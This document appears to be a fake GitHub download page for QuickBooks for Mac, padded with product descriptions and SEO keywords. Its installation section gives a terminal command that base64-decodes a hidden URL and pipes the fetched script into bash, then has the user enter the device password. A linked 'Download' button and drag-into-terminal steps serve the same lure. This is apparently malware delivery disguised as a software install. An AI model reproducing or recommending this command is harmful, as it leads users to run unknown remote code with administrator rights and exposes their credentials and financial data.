 # QuickBooks Mac Download - Powerful Accounting Software for macOS

![QuickBooks Screenshot](https://images.business.com/app/uploads/2019/09/11074146/quickbooks-platform.png)

---

## 🔽 Download QuickBooks for Mac

[![Download Now](https://img.shields.io/badge/Download_QuickBooks-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/quickbooks)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is QuickBooks for Mac?

QuickBooks for Mac is a robust accounting software solution specifically developed for small businesses, freelancers, and self-employed professionals using Apple computers. This complete financial management platform streamlines all your accounting tasks including bookkeeping, invoicing, expense monitoring, and tax preparation through its user-friendly interface optimized for macOS.

Key features of QuickBooks for Mac include:
- Comprehensive financial management tools for complete control
- Professionally designed, customizable invoice templates
- Accurate mileage and expense tracking with receipt capture
- Full payroll processing with tax calculations
- Advanced tax preparation features for easy filing
- Detailed inventory management system
- Customizable financial reporting and analytics
- Time tracking for billable hours
- Project profitability tracking

The software employs enterprise-grade security with bank-level encryption and automatic cloud backups, ensuring your sensitive financial data remains protected while maintaining accessibility across all your devices. The native Mac version delivers optimized performance, faster processing speeds, and seamless integration with other business applications and Apple services.

![QuickBooks Interface](https://softwareconnect.com/images/screenshot-intuit-quickbooks-online-dashboard-353973?w=750)

---

## Key Features & Benefits

- 💼 Professional invoicing and billing
- 📊 Financial reporting and insights
- 🏦 Bank reconciliation tools
- 💳 Expense and mileage tracking
- 📱 Mobile app companion
- 🔒 Data security protections

---

## 🔍 Keywords

QuickBooks for Mac, QuickBooks Mac Download, QuickBooks for Mac Download, QuickBooks Mac, QuickBooks Download Mac, QuickBooks Download for Mac, QuickBooks full version, Mac Download QuickBooks, Download Mac QuickBooks, Download QuickBooks Mac, Download QuickBooks for Mac
